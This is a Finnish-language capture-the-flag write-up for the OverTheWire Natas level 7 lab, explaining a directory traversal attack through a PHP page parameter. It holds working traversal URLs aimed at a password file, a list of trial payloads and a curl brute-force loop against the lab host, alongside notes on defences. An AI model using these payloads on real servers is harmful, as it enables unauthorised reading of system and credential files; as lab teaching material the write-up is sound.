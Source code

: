 # Directory traversal attack

tämä koskee level 7 harjoitusta, joka on ideana selvittää URL-linkin polkua, jotta saadaan selvitettyä sitä level 8 pääsyn salasansa esim. `http://example.com/../../company/users/list.txt`

# level 7 - koskien

tämä on se virallinen vastaus polku; `http://natas7.natas.labs.overthewire.org/index.php?page=../../../../../../etc/natas_webpass/natas8` 

tämä on se alkuperin URL polkua, mitä oli käytössä; `http://natas7.natas.labs.overthewire.org/index.php?page=home/`

Saattiin yhdestä/useammasta sivustosta vihjettä;
```
<br />
<b>Warning</b>:  include(home/etc/natas_webpass/natas8): failed to open stream: No such file or directory in <b>/var/www/natas/natas7/index.php</b> on line <b>21</b><br />
<br />
<b>Warning</b>:  include(): Failed opening 'home/etc/natas_webpass/natas8' for inclusion (include_path='.:/usr/share/php') in <b>/var/www/natas/natas7/index.php</b> on line <b>21</b><br />

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->

```

1. sijoitin ton antaman vihjeen `/etc/natas_webpass/natas8` tuohon alkuperäiseen URL perään, ja katsottiin mitä se antoi.
   - näin ollen; `http://natas7.natas.labs.overthewire.org/index.php?page=home/etc/natas_webpass/natas8`

2. seuraavaksi aloitettiin ottaa tuota tarjoamaa ettei ole tällaista tiedostoa ja/tai hakemiston polkua eli `/var/www/natas/natas7/index.php`- tässä tapauksessa kertoo, että tiedosto sijaitsee hakemistossa `/var/www/natas/natas7/`.

Kuista päästääisiin maaliin asti? Käyttäen `/etc/natas_webpass/natas8` -tiedostoon ilman tarkkaa tietoa alkuperäisestä polusta, voisi lähteä oletuksesta, että sivusto pyörii web-palvelimen hakemistossa (`/var/www/`). Siitä voi arvioida tarvittavat siirtymät. Näin otettaan tämä tiedostopolkua `/var/www/natas/natas7/index.php` muutettaan `../` - merkintöjä päästäkseen ylöspäin hakemistorakennetta ja näin ollen haluttua kohdetta, ja se on oletuttu tiedostopolku siksi muuttuu näin `../../../../../../etc/natas_webpass/natas8`. Siksi tämä `../` alkaa `home` polusta alkaen, että korvautuu siihen tilalle.


Periaatteessa tämä mahdollistaa **directory traversal** -hyökkäyksen, jossa pääset lukemaan tiedostoja, joita ei pitäisi olla saatavilla. Tästä syystä verkkopalveluiden pitäisi suojautua tällaiselta manipulaatiolta esimerkiksi **suodattamalla** `../`-merkinnät ja määrittämällä tiukat käyttöoikeudet tiedostoille.

Sekä tämä on tärkeä pointti käytännön hyökkäyksissä tai CTF-tehtävissä, joissa ei tiedetä tarkkaa polkua (eli mistä hakemistosta `include()` suoritetaan). 

---

# Mitä tehdään, jos ei tiedetä kuinka monta `../?`

Jos ei tiedetä, missä hakemistossa ollaan, voidaan kokeilla eri määriä `../`-tasoja ja toistaa yrityksiä kunnes osutaan oikeaan.

esim. kokeilla näin; 
```
?page=../../etc/natas_webpass/natas8
?page=../../../etc/natas_webpass/natas8
?page=../../../../etc/natas_webpass/natas8
?page=../../../../../etc/natas_webpass/natas8
```

Jatketaan, kunnes ei enää tule virhettä vaan sisältö ladataan. Tyypillisesti 4–6 kpl `../` riittää, jos ollaan jossain `/var/www/...` -rakenteessa.


## Vihjeitä sijainnista?

Jos saa virheilmoituksen kuten; `Warning: include(home/etc/...) in /var/www/natas/natas7/index.php`.
On mahdollista tällainen tai muuten vastaava web-sovellus/sivusto testaessa kuten saa suoraan PHP:n koodikielen virheilmoituksensa kuten; `Warning: include(home/etc/natas_webpass/natas8): failed to open stream...` 
Tämä toisi vihjettä _hakkerille_ - ja juuri tämä on asia, jota ei saisi tapahtua virallisesti tuotannonympäristössä.

Tämä kertoo jo, että `index.php` sijaitsee hakemistossa `/var/www/natas/natas7/`. Nyt voidaan laskea tarvittavat `../` -tasot tarkasti:

- /var (1)
- /www (2)
- /natas (3)
- /natas7 (4)

Yksi lisää, että päästään juureen: yhteensä 5 kpl `../`
Eli `../../../../../etc/natas_webpass/natas8`


## Jos mitään vihjettä ei ole?
Jos PHP:n virheilmoituksia ei näytetä ollenkaan (esim. virheenkäsittely pois päältä), silloin pitää arvailla ja testata monta eri vaihtoehtoa, ja toivoa, että jossain vaiheessa saat oikean sisällön takaisin (esim. salasanan tai tunnistetekstin).

---

# Kali Linux - terminaalissa 

Aikaisemman harjoittuksen kannalta onko ainoa tapa testata `../` polkun selvittämistä, että kyllä jos ei tiedetä tasan tarkkalleen oikeeta polkua.
Directory traversal -hyökkäys perustuu siihen, että yrität suhteellisesti mennä ylöspäin hakemistorakenteessa, kunnes pääset johonkin arkaluontoiseen tiedostoon.

perus voi kokeilla tätä bash komentoa ja tämä on for-loop, periaatteessa skriptinäkin toimii ja tämä on _brute-force traversaliksi_;
```
for i in $(seq 1 10); do
  path=$(printf "../%.0s" $(seq 1 $i))
  curl "http://natas7.natas.labs.overthewire.org/index.php?page=${path}etc/natas_webpass/natas8" --user natas7:<salasana>
done
```





